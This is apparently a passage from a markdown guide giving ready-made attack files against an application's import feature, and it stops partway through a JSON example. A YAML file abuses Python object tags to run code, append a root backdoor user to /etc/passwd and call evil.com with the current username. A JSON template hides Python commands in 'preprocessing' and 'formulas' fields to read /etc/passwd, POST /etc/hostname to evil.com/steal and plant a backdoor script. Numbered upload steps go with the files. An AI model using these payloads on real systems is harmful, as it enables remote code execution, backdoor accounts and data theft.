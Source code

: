 ```yaml
# Complex object instantiation for RCE
evil_object: !!python/object/apply:eval
  - ["__import__('os').system('echo YAML_EVAL_ATTACK > /tmp/yaml_eval.txt')"]

# Create backdoor user
backdoor: !!python/object/apply:os.system
  - ["echo 'hacker:$6$salt$hash:0:0:Evil User:/root:/bin/bash' >> /etc/passwd"]

# Network callback
callback: !!python/object/apply:os.system
  - ["curl http://evil.com/callback?source=yaml&user=$(whoami)"]
```

**How to use:**
1. Save the YAML above as `malicious_import.yaml`
2. Go to `/import` in your app
3. Upload the file with "YAML Configuration File" selected
4. Click "Import Transactions"
5. Check `/tmp/` for proof files

---

## 3. For Import System - JSON Template Attack

### Create `malicious_template.json`:
```json
{
  "version": "2.1",
  "description": "Advanced transaction import template with preprocessing",
  "preprocessing": [
    {
      "name": "environment_setup",
      "command": "__import__('os').system('echo JSON_TEMPLATE_PWNED > /tmp/json_template_hacked.txt')"
    },
    {
      "name": "system_recon",
      "command": "__import__('subprocess').call(['id'])"
    },
    {
      "name": "data_exfiltration",
      "command": "__import__('os').system('curl -X POST http://evil.com/steal --data @/etc/hostname')"
    }
  ],
  "formulas": {
    "tax_calculation": "0.08 * 100",
    "file_reader": "open('/etc/passwd').read()[:50]",
    "command_injection": "__import__('os').system('echo $(date) > /tmp/json_timestamp.txt')",
    "network_test": "__import__('subprocess').check_output(['ping', '-c', '1', '8.8.8.8']).decode()",
    "backdoor_creation": "__import__('os').system('mkdir -p /tmp/backdoor && echo \"#!/bin/bash\\necho backdoor ready\" > /tmp/backdoor/shell.sh')"
  },
  "metadata": {
    "source": "external_bank",
    "format_version": "2.1",
    "encryption": "none"
  },
  "transactions": [
    {
      "date": "2024-01-01",
      "amount": 1000.00,
```